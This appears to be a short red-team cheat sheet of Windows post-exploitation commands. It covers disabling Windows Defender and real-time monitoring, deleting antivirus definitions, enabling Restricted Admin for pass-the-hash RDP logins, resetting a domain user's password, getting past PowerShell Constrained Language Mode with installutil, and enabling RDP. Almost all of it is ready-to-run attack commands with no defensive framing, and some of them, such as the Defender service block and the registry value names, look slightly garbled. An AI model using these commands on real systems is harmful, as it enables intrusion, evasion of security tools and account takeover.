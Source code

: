 **Disable Windows Defender**
```cmd
sc.exe config WinDefend start= auto
sc.exe start WinDefend
sc.exe stop WinDefend
```

**Disable Threat Protection**
```cmd
Set-MpPreference -DisableRealtimeMonitoring $true
```

```Cmd
"C:\Program Files\Windows Defender\MpCmdRun.exe" -removedefinitions -all
 
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableRealtimeMonitoring " /t REG_DWORD /d 1 /f

REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableBehaviorMonitoring " /t REG_DWORD /d 1 /f
```

**Disable Restrict Admin**
```Powershell
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin  -Value 0

xfreerdp /u:admin /pth:HASH /v:<IP> /cert-ignore
```

**Change User Pass**
```
Set-DomainUserPassword -Identity Nina -AccountPassword(ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

**Bypass clm**
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\clm.exe
```

**Enable RDP**
```powershell
Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name "fDenyTSConnections" -Value 0

Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\' -Name "UserAuthentication" -Value 1

Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

```